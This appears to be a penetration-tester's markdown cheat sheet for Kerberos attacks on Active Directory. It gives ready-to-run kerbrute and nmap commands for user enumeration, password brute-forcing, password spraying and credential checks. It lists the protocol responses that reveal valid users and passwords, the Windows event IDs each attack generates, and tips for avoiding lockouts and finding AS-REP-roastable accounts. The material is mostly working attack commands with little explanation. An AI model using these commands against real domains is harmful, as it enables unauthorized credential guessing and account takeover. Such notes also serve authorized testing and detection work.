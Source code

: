 # Brute-force 
Be careful for locking out accounts (error code 4625 & 4771). For kerbrute use `--save` to abort when one account gets lockout.

The python kerbrute also saves the valid TGT for the valid user:password combination.

Can find user accounts with 'UF_DONT_REQUIRE_PREAUTH' set. Can be used for a AS-REP Roasting attack.

## User enumeration
4768 - Kerberos authentication ticket (TGT) was requested
Won't lockout user account. 

`kerbrute userenum --dc <IP> -d <DOMAIN> -v <USERLIST>`
Returns PRINCIPAL_UNKNOWN for invalid users
Returns PREAUTH_REQUIRED for valid users with pre-auth
Returns a AS-REP for valid users without pre-auth !!!!!!

`python3 kerbrute.py -dc-ip <IP> -domain <DOMAIN> -users <USERLIST>`
`sudo nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='<DOMAIN>',userdb=<USERLIST> <IP>`

## Password enumeration
4768 - A Kerberos authentication ticket (TGT) was requested
4771 - Kerberos pre-authentication failed

`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`
Returns RESPONSE_TOO_BIG for valid PW with pre-auth
Returns PREAUTH_FAILED for invalid PW with user with pre-auth
Returns a valid AS-REP for valid PW without pre-auth !!!!!!
Returns an invalid AS-REP for invalid PW without pre-auth !!!!!!

`python3 kerbrute.py -dc-ip <IP> -domain <DOMAIN> -user <USER> -passwords <PASSLIST>`

## Password Spraying
4768 - A Kerberos authentication ticket (TGT) was requested
4771 - Kerberos pre-authentication failed

`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`
`python3 kerbrute.py -dc-ip <IP> -domain <DOMAIN> -users <USERLIST> -password <PASS>`

## Check user:password combo
 4768 - A Kerberos authentication ticket (TGT) was requested
 4771 - Kerberos pre-authentication failed
 
`kerbrute bruteforce --dc <IP> -d <DOMAIN> -v <USERPASSLIST>`
`python3 kerbrute.py -dc-ip <IP> -domain <DOMAIN> -users <USERLIST> -passwords <PASSLIST>`